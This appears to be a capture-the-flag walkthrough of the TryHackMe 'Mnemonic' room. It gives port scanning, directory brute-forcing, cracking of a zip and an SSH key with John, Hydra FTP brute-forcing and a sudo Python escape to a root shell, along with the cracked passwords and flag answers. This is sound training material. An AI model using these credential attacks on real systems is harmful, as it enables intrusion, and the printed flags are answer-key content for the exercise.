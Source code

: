 # Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](../.gitbook/assets/image%20%28170%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](../.gitbook/assets/image%20%28148%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](../.gitbook/assets/image%20%28169%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28154%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28168%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](../.gitbook/assets/image%20%28144%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](../.gitbook/assets/image%20%28145%29.png)

![](../.gitbook/assets/image%20%28160%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28143%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](../.gitbook/assets/image%20%28179%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](../.gitbook/assets/image%20%28141%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](../.gitbook/assets/image%20%28156%29.png)

![](../.gitbook/assets/image%20%28142%29.png)

![](../.gitbook/assets/image%20%28155%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](../.gitbook/assets/image%20%28158%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](../.gitbook/assets/image%20%28180%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](../.gitbook/assets/image%20%28153%29.png)

![](../.gitbook/assets/image%20%28159%29.png)

![](../.gitbook/assets/image%20%28166%29.png)

![](../.gitbook/assets/image%20%28134%29.png)

![](../.gitbook/assets/image%20%28164%29.png)

![](../.gitbook/assets/image%20%28165%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](../.gitbook/assets/image%20%28147%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](../.gitbook/assets/image%20%28136%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](../.gitbook/assets/image%20%28176%29.png)

![](../.gitbook/assets/image%20%28139%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](../.gitbook/assets/image%20%28178%29.png)

![](../.gitbook/assets/image%20%28137%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}

